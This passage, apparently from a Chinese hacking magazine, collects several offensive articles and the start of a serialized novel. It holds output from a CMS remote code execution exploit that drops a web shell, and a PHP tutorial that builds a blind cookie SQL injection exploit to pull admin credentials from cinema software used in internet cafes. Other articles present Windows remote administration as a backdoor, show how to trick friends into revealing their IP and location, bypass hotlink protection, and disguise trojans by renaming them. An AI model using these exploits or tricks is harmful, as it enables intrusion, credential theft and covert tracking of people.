> **编辑点评：** 阅读栏目啊，要的就是效果了。相信文章与大家见面的时候，这个风波早已过去了。要是想明白一下原理，大家百度一下，你会发现许多分析文章。

```text
php jieqi.php www.******.com /

Jieqi cms <= 1.5 remote code execution exploit
...
Exploit Success!
View Your Shell: http://*******/cache/flyh4t.php
```

图2


图3


图4


图5

菜鸟“锁”补：过年可是美酒+美女+美餐，应接不暇，浑浑噩噩啊！一上学了，空虚了，只好抱着书本啃，哎，色雷诱人，忍不住又想去机房了。不行，我答应了的，春节后减肉1月，好好学习，天天“想”上啊！学校食堂的饭菜只能填填肚子，偶然发现，怎么一过完年，我的消化能力增加了？下午一到第二节课就开始饿，我中午可是吃饱了啊！身体呀……不是我所能控制的了……

## 对 WINDOWS 两个组件的介绍和联想

从本文你可以了解两个绝妙的 Windows 组件

明年就要考计算机四级了，闲来无事买了几本关于网络方面的书，无意中发现其中一本书介绍了 WINDOWS 的两个组件，分别是“远程桌面 Web 连接”和“远程管理（HTML）”，感觉这两个组件功能相当的强大，用在 hacking 上也很不错，不敢独享，拿出来让大家也认识一下，下面我就分别对这两个组件进行介绍。

### 一、远程桌面 Web 连接

“远程桌面 Web 连接”是“终端服务”组件及功能的一个中间版本，此版本的目的在于扩展客户端的“终端服务”功能，以便系统管理员、网页设计人员和 Web 管理员能够在网页或 Visual Basic 应用程序中实现终端服务客户端会话。远程用户不需要安装整个“远程桌面连接”客户端程序。这里阐述提高了“终端服务”在服务器远程管理、Web 应用程序和终端服务器安装管理中的可用性。

可能官方解释有点晦涩难懂，其实这个组件很简单，就是可以替代 mstsc 远程桌面连接这个程序，使我们能够在浏览器中或 Visual Basic 应用程序中实现对终端服务（就是小黑们常说的 3389）的连接。

“远程桌面 Web 连接”的安装方法也很简单，在 IIS 组件里面就内置了它的安装文件，不过默认情况下它是不会被安装上的，我们需要手工添加。

我以 WIN2003 系统为例介绍如何安装“远程桌面 Web 连接”，首先要先给服务器把 3389 终端服务打开，打开 3389 终端的方法有很多种，可以用工具开启，也可以用注册表文件导入开启，前提是要准备一个 IIS 安装包，我已经打包提供到光盘中，大家按照以下步骤即可操作。

- 打开“控制面板”中的“添加或删除程序”；
- 单击“添加/删除 Windows 组件”；
- 单击“应用程序服务器”，然后单击“详细信息”；
- 选择“Internet 信息服务”，然后单击“详细信息”；
- 在“Internet 信息服务的子组件”列表中，选择“万维网服务”，然后单击“详细信息”；
- 在“万维网服务的子组件”列表中，单击“远程桌面 Web 连接”复选框，然后单击“确定”，接着再次单击“确定”，最后第三次单击“确定”。1—6步操作后的效果如图1所示。
- 在“Windows 组件”向导中，单击“下一步”，组件开始安装，如图2所示。因为我以前在光驱里放了 WIN2003 的安装盘，所以一会会出现如图3的提示，这时选择“浏览”，找到我提供给大家的 IIS 安装包的目录，找到提示需要的文件点确定就行了。

一两分钟后安装完毕，这样我们打开 IIS 管理器就会发现当前 Web 网站目录多出来一个名为 tsweb 的虚拟目录，如图4所示，这样服务器端就设置好了，是不是很简单？

接下来我们访问一下 tsweb 这个虚拟目录，默认首页为 default.htm。注意“远程桌面 Web 连接”要求使用 Internet Explorer 5 或更高版本，如果你的 Internet Explorer 版本低于 5 的话，那你是不能成功使用“远程桌面 Web 连接”服务的。

客户端第一次使用时会出现如图5的提示，大致意思就是要求我们先安装一个 ActiveX 的控件。我们点“确定”就可以自动安装了，不过有的电脑把 Microsoft RDP Client Control（redist）设置为禁用了，那么我们就需要开启它。

点击图5圈出来的地方会显示出如图6所示的界面，我们只要把下面的“禁用”改成“启用”，再刷新一下就完成客户端的配置。


然后填上服务器 IP 地址，点“连接”就能以 Web 页面的方式访问终端了，如图7所示，我们就可以不用 mstsc（远程桌面连接）来连接了，而是用浏览器来访问，方便了没有安装“远程桌面连接”用户的使用（Win2000 默认是不安装的），是不是感觉酷酷的啊。

**提示：**如果终端服务器的默认 3389 端口被改了，那么我们需要对服务器的“远程桌面 Web 连接”配置文件进行修改，才能保证我们能够连上服务器。

不过过程太过繁琐，我找到一个上海交大的配置好的可以连接任意 IP、任意 3389 端口的“远程桌面 Web 连接”服务器，大家可以去上边看看，如图8、图9、图10所示。


### 二、远程管理（HTML）

第二个就是远程管理（HTML）这个东东了，很强大的一个东西。说明如下：

远程管理（HTML）方式是基于超文本标记语言（HTML）的应用程序，主要用于通过 IE 浏览器对远程 Web 服务器所进行的一种远程管理方式（要注意，与“远程桌面 Web 连接”相区别，单个的服务器、整个服务器场和每个服务器的多个站点都可以单独管理工作站进行管理。只在 Windows Server 2003 Web Edition 上安装应用程序服务器的远程管理 Web 界面。在默认情况下，它不会安装在其他 Windows Server 2003 服务器操作系统上，不过还是可以人工添加的。）

说得很好懂，安装也很简单，第一步同“远程桌面 Web 连接”的1—5步一样，只是在第6步的时候要勾选“远程桌面 Web 连接”上边的那个“远程管理（HTML）”，第7步也同上。

很快组件就装好了，安装完成之后在 IIS 管理器里我们就会看到多出来一个名为“Administration”的新站点，TCP 端口为 8099，SSL 端口为 8098，如图11所示，说明远程管理（HTML）组件基本就安装完成了。


如果这时候我们直接去访问“http://远程IIS服务器:8099/”的话，肯定会报错，如图12所示。看看提示内容：“在您要访问的地址前键入 https:// 并按 Enter”。为了安全起见，默认情况下该工具强制用户使用 SSL（安全套接字）连接，需要在 Web 浏览器的地址栏中输入 https://远程 IIS 服务器：8098（注意同前面 URL 的区别，远程管理（HTML）组件采用的端口号为 8098，千万别搞错了），然后正确输入管理员账户名和密码，如图 13 所示，这样就可以登录到管理站点，对该 IIS 服务器进行远程管理。

登录成功后如图 14 所示，一开始的时候俺也被吓了一跳，远程管理（HTML）的功能真是太强大了，仔细看导航就能知道个大概，主要有“站点、Web 服务器、网络、用户、维护”这几个功能。

别小看了这几个功能，通过远程管理（HTML）我们可以实现 Web 站点管理、FTP 站点、Web 日志管理、FTP 日志管理，以及应用程序日志、安全日志、系统日志的清除，还有修改 Administrator 密码、用户的删除与创建、重启服务器等等……通过它，我们可以很轻松地对服务器进行管理，功能页面分别如图 15、图 16、图 17、图 18、图 19 所示，其它的功能大家自己发掘，限于“黑手”版面我就不一一介绍了，如果还有不明白的，请到“黑手”论坛提问。

### 三、总结

通过前面的介绍，读者们一定对这两个组件有了一定的认识，相信大家多多少少会产生些遐想，尤其是远程管理（HTML）这个组件，简直就是一个超级的后门，我们完全可以通过它对服务器进行管理控制。不过我在测试中又遇到了不少问题，比如远程管理（HTML）安装完成之后，会在 IIS 新建一个名为“Administration”的新站点，管理员大叔很容易就能发现，这样隐蔽性就不高了。希望通过这篇文章让各位菜鸟朋友对这两个组件有所认识，也殷切期望大牛们能够对这两个组件深入研究下，拿出来和大家分享。

> **编辑点评：** 不错的两个组件，尤其是后者。真正的技术高手就是利用系统本身提供的资源来工作，既保证了安全又达到了目的，这才是真的好！

## 数据库也疯狂（三）

从本文你可以学到编写 EXP 的基础

这期给大家带来的是 Web 程序漏洞利用工具的编写！也许你已经具备了查找漏洞的能力，一直就梦想着发布署上自己之大名的 Exp（虚荣心作怪呀）。说实话，我觉得这样的文章挺难写的，因为被划分在“菜鸟恶补”一块，写得涉及到编程了，估计大家也不爱看。但是，没有编程基础的菜鸟那是不合格的菜鸟，希望大家坚持一下，下期我们讲其它的。

零茶影院整站程序以其界面清爽、运行稳定而被众多网吧采用，我在查看 MovieView.asp 页面时，发现程序员没有正确地过滤 MovieViewID，仅包含一个通用防注入程序，从而形成了一个典型的 Cookie 注入。根据国人设定密码的习惯，这个密码在网吧环境中是非常有利用价值的，严重时甚至可以远程登录网吧主机，接着的事就不用我说了吧？本文就利用这个例子写 exp，以此讲解多个利用 PHP 分析和处理数据包的函数。

```asp
<%
MovieViewID=Request("MovieViewID")
set rs=server.createobject("adodb.recordset")
sql="update learning set hits=hits+1 where articleID='"&MovieViewID
rs.open sql,conn,1,3
sql="select * from learning where articleid='"&MovieViewID
rs.open sql,conn,1,1
if not(rs.bof and rs.eof) then
MovieClassID=rs("typeid")
%>
```

顺便说一下搭建的 ASP+PHP 环境，我采用 APMServ5.2.6，它是一款拥有图形界面的快速搭建 Apache 2.2.9、PHP 5.2.6、MySQL 5.1.28 & 4.0.26、Nginx、Memcached、phpMyAdmin、OpenSSL、SQLite、ZendOptimizer，以及 ASP、CGI、Perl 网站服务器平台的绿色软件。安装完成后点击“启动 APMServ”就可以了，一键完成，省去了很多麻烦。默认使用的 80 端口可能会被迅雷占用，只需要自己修改一下端口设置即可。

首先获取四个用户输入的参数，包括主机、端口、路径及保存在 MovieViewID 的 Cookie，即对应着 $Domain、$port、$path、$cookiepre。我测试时 $Domain='127.0.0.1'，$port=80，$path='/asp/3'，$cookiepre='MovieViewID=1064'。

第一步：判断该站是否正采用目标程序是否能被攻击。零茶影院（zerotea）在 inc 目录下有一个特殊的样式表文件 zt2004.css，zt 是 zerotea 的缩写，很独特，所以通过判断它的存在来确定目标能否被攻击是可行的。我们先来看如下代码：

```php
if (@file_get_contents('http://127.0.0.1:80/asp/3/inc/zt2004.css')){
    echo "<br>恭喜，是零茶影院系统：<br>";
} else {
    echo "<br>如果没填错的话，大概就不是零茶影院系统吧：<br>";
    exit;
}
```

```php
string file_get_contents ( string filename [, bool use_include_path [, resource context [, int offset [, int maxlen]]]] )
```

file_get_contents() 函数是用来将文件的内容读入到一个字符串中的首选方法，加上 @ 为抑制错误。使用 file_get_contents() 请求服务器返回 zt2004.css 的内容，并保存为一个字符串，如果返回不是 false，那么也就说明服务器是存在这样一个文件，从而可以确定是零茶影院系统。因为 file_get_contents() 函数使用起来非常方便，使用 GET 方法就能利用漏洞，我们首先使用它来请求带有攻击性的 URL，比如：

```php
file_get_contents('http://127.0.0.1:80/asp/3/index.asp?id=1 update [bbsxp_users] set UserPoleID=1 where Username=''xiaoy''!');
```

仅仅是这样一条语句，一个 exp 就完成了。但是遗憾的是，零茶影院是 Access 下 Cookie 注入，不支持多句查询，只能一位一位地猜解（union 除外）。第二步：检测默认的数据库路径是否被修改。这一步用处不大，主要是介绍 fopen() 的一个有用的功能。数据库便可直接得到用户名密码，我们来看以下代码：

```php
if (!@fopen("http://127.0.0.1:80/asp/3/data/zerotea.mdb","r"))
{echo '找到数据库:<a href="http://127.0.0.1:80/asp/3/data/zerotea.mdb">http://127.0.0.1:80/asp/3/data/zerotea.mdb</a>'; exit;}
else {echo '数据库路径已被修改';}
```

## Fopen，打开文件或者 URL（PHP 3、PHP 4、PHP 5）

```php
resource fopen ( string filename, string mode [, bool use_include_path [, resource context]])
```

将 filename 指定的名字资源绑定到一个流上，如果 filename 是 "scheme://..." 的格式，则被当成一个 URL，PHP 将搜索协议处理器（也被称为封装协议）来处理此模式。如果该协议尚未注册封装协议，PHP 将发出一条消息来帮助检查脚本中潜在的问题，并将 filename 当成一个普通的文件名继续执行下去。'r' 是以只读方式打开，将文件指针指向文件头。

看得头晕了吧？简而言之，使用 fopen() 函数可以非常方便地扫描某个 URL 是否能被访问，使用抑制错误符号 @ 是为了让输出更加人性化，同时，不然当不可访问时会报错的。

第三步：构造数据库，猜解用户名密码

比较正常访问（and 1=1）和访问出错（and 1=2）时的页面，如图 1、图 2，发现“这里没有影片”可以作为猜解错误的关键字，于是速度地写了一段发包函数：

```php
function injection($Domain, $port, $path, $cookie, $i, $col){
    $fp = fsockopen($Domain, $port, $path);
    $out = "GET $path/index/MovieView.asp HTTP/1.0\r\n";
    $out .= "Accept: */*\r\n";
    $out .= "Accept-Language: zh-cn\r\n";
    $out .= "UA-CPU: x86\r\n";
    $out .= "User-Agent: Mozilla/4.0 (MSIE 7.0)\r\n";
    $out .= "Host: $Domain:$port\r\n";
    $out .= "Connection: Close\r\n";
    $out .= "Cookie: $cookie\r\n"; //cookie 注入，消息头最后
    \r\n\r\n;
    fwrite($fp, $out);
    $str = stream_get_contents($fp,-1); // 读入返回的所有数据
    fclose($fp); //关闭 fsockopen 资源
    if (!strpos($str,'这里没有影片!')) { //判断是否出现了关键字
        return 1;
    } else { return 0; }
}
```

## fsockopen（string target [, int port [, int &errno [, string &errstr [, float timeout]]]]）

fsockopen 建立资源，定义发送内容。用 fwrite 函数或者 fputs 函数写入定义内容，消息头与消息体之间以 \r\n\r\n 隔开，各个消息头以 \r\n 隔开。考虑到 fgets 或者 fread 能够读入的字符长度好像有限（8192），使用 stream_get_contents($fp,-1) 把所有字符全部读入，并且利用 strpos($str,'这里没有影片!') 函数来查找“这里没有影片！”出现的位置，如果返回的是 false，那么函数 injection() 返回 1，否则返回 0；fclose 关闭建立的 fsockopen 资源。

接着利用已写好的发包函数猜解 $col 字段（username 或 password）的长度，代码如下：

```php
function getlen($col){
    global $Domain, $port, $cookiepre, $len;
    for ($i=1; $i<=10; $i++){
        $sql="' and 1=(select count(*) from admin where len('".$col."')='".$i."')"; // 计算字段长度语句
        $cookie=$cookiepre.$sql; //把原始 cookie 与注入语句拼接成完整 cookie
        if (injection($Domain, $port, $cookie, $i, $col)){
            $len=$i; break; // 等到返回正常时记录长度 $len
        }
    }
}
```

得到字段的长度后，猜解 $col 字段的内容，代码如下：

```php
function getcontent($col){
    global $Domain, $port, $path, $cookiepre, $len;
    for ($j=1; $j<=$len; $j++){ // 先循环逐位猜解
        for ($i=48; $i<123; $i++){ // ASCII 码 0~z 依次尝试
            $sql="' and (select top 1 asc(mid($col,$j,1))=$i from admin)";
            $cookie=$cookiepre.$sql; // 拼接注入语句
            if (injection($Domain, $port, $path, $cookie, $i, $col)){
                echo chr($i); break; // 猜解正确时输出字符，退出循环
            }
        }
    }
}
```

查看数据库得知字段名是 username 和 password，于是调用：

```php
function getusername(){
    global $Domain, $port, $path, $cookiepre, $len;
    $col="username";
    echo "<br>username:";
    getlen($col); // 先计算长度 $len
    getcontent($col); // 输出猜解结果
}

function getpassword(){
    global $Domain, $port, $path, $cookiepre, $len;
    $col="password";
    $len=16; // MD5 加密后长度为 16，不猜测而直接指定
    echo "<br>password:";
    getcontent($col); // 逐位输出猜解的字符
}
```

图 3 是我运行时返回的结果，因为算法写得很烂，猜解花费时间很长（约 47 秒），所以需要在 exp 开始时加上一句 ini_set("max_execution_time",0)，把最大执行时间设为无限。

第四步：自动查询经 md5 加密的密码

最后可以把得到的经 md5 加密的密码放到 www.xmd5.com 上查询，这样再写一句：

```php
$res=file_get_contents("http://www.xmd5.org/md5/md5check.asp?md5pass=$password");
```

配合着使用 **strpos()** 定位特征字符串，**substr()** 从指定位置输出指定长度的字符串，便可实现自动分析返回的数据包 `$res` 输出解密结果。

写 exp 还需要用到正则表达式的地方，希望读者朋友自己去了解一下，多翻翻 PHP 手册。学习完今天讲的这些，写个自动新闻采集器或者数据小偷应该是没有问题了吧。当然啦，我写的东西还有很多不完善的地方，欢迎批评指正。

【文章所涉及的相关 Exp.php 代码已经收录在本期光盘】

**编辑点评：**

很多时候，许多读者也是看着别人的 EXP 流口水吧？看来学黑就是要学编程，只有不断完善理论、分析流程，才能更好地利用编程来实现自己的目的。多多看看杂志中的相关文章吧，好好地利用整合下，有个 EXP 可很有成就哦。

**酷玩过节：**“喂喂，喂喂，喂喂，喂喂”……一进教室一帮同学就像精神崩溃一样地坐着，无精打采，看来还没有从长假中回来。而且春节又挨近元宵和情人节，果然很累哦！故他们传染了我，我也歪拉着脑袋，把书包从肩上向课桌上一扔，然后……继续睡觉……昨晚上编辑稿件，累哦……

## 流量统计“助我拿好友 IP”

自从彩虹 QQ 被封杀后，窥视好友的 IP 成了网虫们的一大难题。现在常见的方法是利用防火墙以及查看端口等方法来查看好友的 IP，其实让好友显示 IP 的方法还有一种：就是让其访问特定的网址，然后通过网站“流量统计”来查看其 IP。毕竟一般的网民都不是站长，我们可以自己搭建个小站并放上流量统计代码，让好友来访问，然后实现 IP 侦获。

我就用“小旋风 ASP 服务器”进行演示操作吧，首先安装服务器，步骤很简单，一直点“下一步”就行了，默认的安装目录为 `C:\Program Files\小旋风 AspWebServer\wwwroot`，其下有一个名为 `index.asp` 的文件。安装设置好后我们直接双击启动服务器（如果你的电脑处于内网，请在路由器映射 80 端口，在此简略步骤），然后进入“流量统计”的网站，以 `http://count.51yes.com/` 为例，我们先注册一个账号，如图 1。

“网站地址”就填希网的动态域名，记住要更新一下自己的 IP，注册成功网站就会给出 12 组“统计代码”，我们随便选一个放到你想统计的网页底部即可，如图 2。

为了演示，我就把代码放入“小旋风”的主页代码中，也就是前面提到的 `index.asp` 文件里，我用的是第一组，加入后的效果如图 3。

现在就可以把你的网址发给你要侦知 IP 地址的朋友了，我的地址是 `http://swan7110.3322.org`。至于如何让其来点击访问，就要看你的“花言巧语”了！等其打开后，我们登录“流量统计”的网站（你所申请流量统计代码的那个站），如图 4。点击左上角的“最后百名访客”，如图 5。

在获得了他的 IP 后，去 `www.ip138.com` 一查就知道具体的地址了。

牛年寄语：后来，终于在眼泪中明白，有些人，一旦错过就不在。猛然听到刘若英的《后来》，发现现实中的我们，有多少人对身边的亲人、朋友说了一句关心、道了一声问候？做技术的也有朋友和亲人，也可以有很多知心朋友，那么，你做到了吗？现在的你，是不是应该抽出那么一点点的时间，给周围的朋友多一点关怀呢？

## 轻松破解防盗链系统

- 深蓝浅蓝

从本文你可以学到：

- 如何突破防盗链系统

在上一期的杂志中，我发表了一篇文章说明怎样破解软件站的专用下载链接限制，实现零工具下载。这些天，我又盯上了软件站的防盗链系统，决定挑战一下防盗链系统的安全性。

### 一、软件篇

- 1、迅雷

大名鼎鼎的迅雷是下载狂们的至爱，其实利用它就能突破大多数防盗链系统。我们来拿“华军软件园”开刀吧，它是中国起步较早的软件站，自然会有防盗链系统。如果用户直接访问软件下载地址，它会自动跳转回华军软件园的首页，如图1。

破解这个限制很简单，只要在迅雷里新建一个任务，在 URL 中填上下载地址，点击“确定”就能下载了，如图2。这种方法是当前盗链比较流行的一种方法，适合新手使用。虽然一些站长已经有了应对措施，但短时间内不会失效。

- 2、Referer 欺骗

我认为身为黑客，技术是次要的，最重要的是要有 DIY 精神。下面我就带领大家手工分析，突破防盗链系统。正所谓“知己知彼，百战不殆”，在看了几款防盗链系统的源代码后，我大概了解了防盗链系统的原理。

> 当你访问服务器上的某个资源时，防盗链系统会检查你是否是从本站访问的；也就是检查访问者的 referer 地址是不是真的来自它的站点。如果不是，系统就会将其识别为盗链，禁止继续访问资源。

referer 是 HTTP 协议的一部分，任何脚本语言都支持对 referer 值的读取，比如在 JSP 中表现为 `request.getHeader("referer")`。

提到 referer，我想起了 2007 年魔兽公会系统曝出的一个漏洞，入侵者可以通过 referer 地址欺骗的方法进入数据库备份页面，从而获得机密资料。记得当时公布出来的欺骗工具是 QuickSpoof，我们似乎今天再次请它出马吧。这一次我们把目标定为“天空软件站”，它的反盗链措施和“华军软件园”一样，发现盗链行为就跳转首页。

运行 QuickSpoof，界面如图3所示。首先点击“ADD”按钮来添加一个项目，“Description”是描述信息，可以随便填，我填的是“SkyCnSpoof”；“referer”填写的是欺骗地址，这里填“天空软件站”的主站地址“http://www.skycn.com”；“Target”填写的是访问地址，当然填写软件下载地址喽。一切填写完毕后如图4，然后点击“ADD”，项目就添加好了。

一切就绪后，点“Spoof”就开始欺骗了。果然不出所料，弹出了我们可爱的下载窗口，如图5。经过测试，这种方法相较前面的方法有局限性，但剑走偏锋，可以说是一击必杀。

### 二、流媒体篇

流媒体的盗链较简单，因为已有高手编出了针对流媒体的地址嗅探工具“GetMusic”，我们小菜只管用就是了。首先选取一个可以在线播放音乐的站点，随便打开一首歌，然后运行“GetMusic”，其界面如图6。

点“开始”按钮，软件就开始了探测，不一会儿这首歌的路径就出来了，如图7。你还能用相同的办法探测到在线电影播放的路径，在此就不再赘述了，大家自己摸索哦。

以上几种方法各有千秋，如果能融会贯通，相信没有什么反盗链系统能难倒大家了。这里啰嗦一句，盗链毕竟是不受欢迎的，本文的测试只是出于技术的学习，看了本文可不要做坏事哦。

> 【文章中涉及到的工具已经收录于本期光盘】

编辑点评：

防盗链也是用代码写的，只要是代码不够严谨，一样是会被突破的。说到 referer 欺骗，大家留心一下，好多程序都存在这样的问题。另外，迅雷的这种下载方式还是可以对付的，大家多多百度，多多搜索下。

## 非常规运行 exe 的一些思考

图/清远长风[B.B.E]

从本文你可以学到：

- 另类方法运行 exe 文件

在一次工具免杀中，我把一个加了壳的 hui.exe 改了后缀成为 hui.txt，目的是为了用记事本来看壳（相信大家对用记事本查看壳有一定的了解吧）。后来在 CMD 中进入这个目录，误输入了“hui.txt”，结果发现程序运行了，效果如图1。

hui.exe 是原程序，hui.txt 只是改了后缀，图2为这两个文件的属性，图3为用记事本打开的 hui.txt，大家可以亲自试试。

后来我又把程序的后缀改成 jpg、wma 等多种系统中有或者没有的后缀名，在 CMD 下输入 hui.jpg 或 hui.bmp 等照样可以运行，甚至不加后缀，将 hui.exe 改成 hui 后，直接在 CMD 下输入 hui 也可以运行！

在网上搜索才知道原理：CMD 输入一个文件名后，它会先分析这个文件是不是一个标准的可执行文件，如果是就执行它。这个小小的发现也让我产生了一些思考。

大家都知道，网吧机子的补丁一直跟不上时代，而对于很多拿着 U 盘终日奋斗在网吧一线的战友们来说，盘里辛辛苦苦搞来的工具被病毒感染或破坏掉，岂不是非常可惜，我就遇上几次这样的事了。

如果我们把盘里的可执行程序的后缀全部改成非可执行文件的后缀，然后在程序目录建一个 bat 文件，bat 中只需要输入改过后缀的可执行程序名就可以了。以后要使用这个程序时，只需要运行这个 bat 不就行了吗？这样一来，你的 U 盘里就没有 exe 了，那些靠后缀名来决定是否感染的木马、下载者就不会光顾你了，这样岂不安全很多？我试着操作了一下，效果如图4。

这个方法还可以用在你的木马上，一般没有人会对不熟悉的后缀名感兴趣的，大家的奇思妙想就自由发挥吧！

> **编辑点评：**
>
> 看完文章，我做了一下测试，发现确实可行，不过针对 bat、txt 等后缀就没有用了。其实这已经足以为大家开拓思维了，就像作者所说，把木马的名字改得怪怪的，然后在 cmd 下执行，又有哪些管理员会在意这些他们认为不会执行的文件呢？

XApache：

故人西辞黄鹤楼，烟花三月下扬州。一年之计，最美好的季节莫过于春季，而三月份又是春天中最美好的一个时间段。我希望这个月平平安安、快快乐乐地度过，不希望“二月无故烧大楼”那种损失惨重的事情再次出现。

在《创业》杂志风靡一时的《断头台》系列小说完结之后，原作者乘着春风得意地向我们送上了他的新作《特仑苏》——一个金瓶梅加校内打工仔的爱情故事。该小说共有三集，将在《黑客手册》连载三期。如果你是原作者的忠实读者，那么恭喜你，本期刊登的，正是《特仑苏》的第一集。

> 题记：贫富差距是造成我们跳槽的原因之一，所以我们总是在无奈地拉大与他人之间的差距，以使得自己身价提高。

## 特仑苏 I

- 九叔

自从今天早上被公司裁下来后，我开始了新的求职之旅。作为一个技术人员，特别是对平时表现得很和谐很听话、干活也很多的技术人员来说，我毫无异议地被裁了。现在想想也是，做得多，不拒绝不是自己的事情，很容易造成软弱的表征。也许在挑选下岗人员的那 0.01 秒钟，领导想的是：“裁掉他，应该也不会拒绝吧？”

就在昨天，公司委派我一个人从搬 100 公斤的机柜到公司，连安装系统带调试，从交换机到路由器调得通通透透，白开水一样纯净。老实说，卖设备的公司对这人都赞誉有加，经济危机的岁月里，干活这么不要命的人不多了。特别是体力这么好，还懂技术的人真的不多。

这个人就是我！对于一个技术人员来说，要求这么全面实在是有些强人所难，不过你们要是也和我一样在这家公司待上几个月，肯定做得比我还好。然而现在说这些已经晚了，找下一份工作势在必行。也许很多人会说老板是不是脑子进水了，这么能干的人干吗还裁掉。但是事情就是这样，因为公司其他的技术员比我身体还好，搬的东西比我还多！

三、四年前还敢写份简历说自己吃苦耐劳、学习刻苦，现在说这话纯粹找抽，干好自己的就行了，干得多错得多，特别是不该自己干的。不仅以后还得接着干，干对了没奖励，干错了更得打板子。

一只细长的小手一把捏住了它的脖子，撕掉了它的衣服，用一根管子狠狠地插进了它的身体。再下来，看到的是一张小巧的嘴。我没有看到她整个脸蛋，但是仅仅看着这张完美的小嘴，实在是没有理由相信这不是长在一张完美的脸上。

不过我更多的注意力还是放到了“特仑苏”身上。“特仑苏”在蒙语中是“金牌牛奶”之意，也是蒙牛的一个牛奶品牌。言简意赅地形容一下，就是“高贵典雅，贵族气十足”。看到有人喝这种牛奶，我通常会很感兴趣，也会稍微注意一下他们，顺便 YY 一下这类特殊的人群。

这是一种很低调的牛奶，大多数老百姓都不会喝它，因为它的价格是普通牛奶的两三倍。中等阶层的白领也不会喝，因为要养家糊口、贷款买房，能喝它的只有 90 后的少爷小姐们，还有真正有钱的老板们，比如被裁员之前我们公司的崔总就喝这个。

总体来说，特仑苏的品质是值得肯定的，但是 5 块钱的零售价让它性价比缺失。我一直很羡慕天天喝特仑苏上班的人生，那感觉很写意。但是考虑到，如果这么做了，那么晚上就得骑自行车回家，然后用开水泡大饼，所以现阶段的我只是想想，还不敢化为实际，特别是失业的这个紧张时期尤其如此。

等回过神来，才想起，这个喝特仑苏的女人的手……很白啊。我想再看看这只美丽的手，所以转过身来，却发现这个美女一边喝着特仑苏，一边吃着方便粉丝，那袋淡淡的酱香混着空气飘了过来。不过老实说，这是一种很奇特的习惯，高贵的特仑苏和廉价的光友粉丝无论如何也不太搭调。

周六起了个早，我穿上久违的西装，系着领带，坐地铁来到上海体育馆参加人才招聘会。结果才到了门口就被吓得退了两步，那个人山人海，红旗招展啊！可以看到男的女的，老的少的，排列成一个曲折漫长的队伍，正在有秩序地入场，隐约还可以听到有主持人欢快而嘹亮的声音：“大家不要急，本次招聘会我们准备了上万个职位，绝对可以满足大家的需要，各行各业，各种高薪职业覆盖本次招聘会，工作地点也不仅仅局限于上海，同时可根据大家的需要进行调剂……”

对于这种睁眼说瞎话的行为，我是习以为常的了。和谐上海天天都会有人失业，天天都会有人找到工作，不停地搬家，不停地换工作，时时刻刻都是在试用期工作。工作性质无非是从这一个试用期跳到下一个试用期，而国内企业的这种现象尤甚。

上海体育馆是一个很有意思的建筑，内里是圆形的，然后招聘台分布两边；中间留下一个巨大的走道供聘人员通过。但是很明显，这次要比两年前多太多人了。

“这次真的是太好了”，我心里庆幸着，顺手拿出偷拍机器富士 S2000HD，调到 15 倍焦距，然后整了整领带，自我催眠成一位记者，开始在人群中偷拍各个展位前的美女。从原理上来说，招聘会和展示会是一样的，都是要商家拿出自己最美的一面。当然，招聘会严肃一点，美女都穿制服；展示会欢快一些，美女都穿泳装。

我拿着相机跟着人流慢慢地移动，其实我根本不用走，后面的人都会推着我前进，这大概就是所谓的“随波逐流”吧。人渺小得如浮萍一般，身不由己地前行着。

可惜的是，越到后面，女人质量越差，这应该是和公司实力有关了。我收起相机，停在一家展台前面，一回头，看到的却是桌子的一角，一包没有开封的特仑苏静静地站在那里，然后是……

我从自己的 A 货阿玛尼小包里头拿出一份简历，很平静地放在美女面前的那张桌子上，等着她问我一些面试问题。我猜想既然她的嘴很可爱，那么说话也一定很好听。既然说话很好听，那么就值得我认识一下。但是事实总是悲惨的，和她一张桌子的一位帅哥拿起简历和我谈了起来：“您有五年计算机从业经历？”他显得有些不信。

“嗯，是的。”我故意坐直了身子，结果特仑苏并没有抬头看我，仿佛光友粉丝对她的吸引力更大。“五年里做过网管、售前支持、售后服务，还写过公司制度以及各种小型方案，技术娴熟，善于沟通，还会唱歌。”

“哦，那你唱两句看看。”帅哥问道。

“……您这里不是招聘技术员么？这个唱歌不是主要能力吧？”我真想抽自己嘴一巴掌，关键时刻就是管不住它，什么话都敢往外蹦。

“嗯，主要是看一下你的综合实力。”这个男人看起来很诚恳地说道。

“什么歌儿都可以么？”

“拣你最拿手的来唱两句吧。”

“山的那边，海的那边，有一群蓝精灵，他们活泼又聪明，他们调皮又灵敏，他们自由自在地生活在那绿色的大森林……”这首歌其实朗朗上口，韵律十足，可惜年龄段有些低，但最主要的是我就会这么一首。

我以为主考官和后面排队的应聘人员都会笑起来，事实上他们显得很平静。这一瞬间我才认识到《星光大道》对群众的影响是多么大，找份工作来个才艺表演那是必须的，稍微懂点的。甭管有的没的，露个脸是起码的。

帅哥想了想，给我留了一张名片，让我参加公司的面试。然而总共我还没有和他说过 5 句话，以至于我想和特仑苏搭讪的机会都没有，原来这就是海选……

我不舍地回头，发现特仑苏抬起头来，还礼貌地笑了笑。嗯，确实如我所想，很诱人的一个美女。

星期二的时候，坐车到名片上留下的静安区地址，主考官都还没来，我前面排了不少人，大概有 7、8 个人抢这一个信息管理员的职位，其中不乏刚毕业或者没毕业的年轻人。我无聊，就和他们攀谈起来，但是很明显他们对我带有敌意，或者说这几个人中每个人对其他人都有敌意，所以说得不太多。我瞄了一眼，发现薪资要求那一栏基本都保持在 2000 以下，最低的那位写的是 1600。这让我印象深刻，所以我特别和他忽悠了两句，不过这孩子很高傲没理我，也许在他眼中，我这么一个年纪不小、体重不轻的人是竞争不过他的。

主考官来了，一群人团坐在圆形的会议桌周围，他开始一个一个提问。来面试的人都很勇敢，也很善于表现自己，感觉会的东西都很多，一千六是这样说的：“我有三年工作经验，精通 Linux 服务器架设，能够用 Tomcat5、Apache、Nginx 快速搭建服务器，熟悉脚本安全，熟练使用 chkrootkit 和 Clam AntiVirus 进行安全防护，以及 VM ESX 等虚拟化产品，有一定编程能力，精通 Mysql 和 Windows 软硬件维护。”

“有什么业绩？”主考官听到这，显得比较满意，随便问了一句。

“做过两个网吧，还有在一家网站待过半年。”一千六这么答道。

主考官转过来问我，让我来段自我介绍。其实说心里话，我没有那孩子会得多，所以我这么告诉主考官：“这么长时间，我只接触过 Windows，对这还算是比较了解的，平时公司的电脑啊，服务器啊，都是我管。原来的公司有时候也会采购一些新设备，这些东西基本上只要一两天，我就能熟练使用。”

主考官继续等着，我有些尴尬，“嗯，没了。”

“有什么业绩？”

“具体说来好像也没什么，不过难搞的项目最后都得我上吧。”

我猜他一定在想，这人还真能扯淡。很快他又随便问了几个问题，结束了这次群体面试。

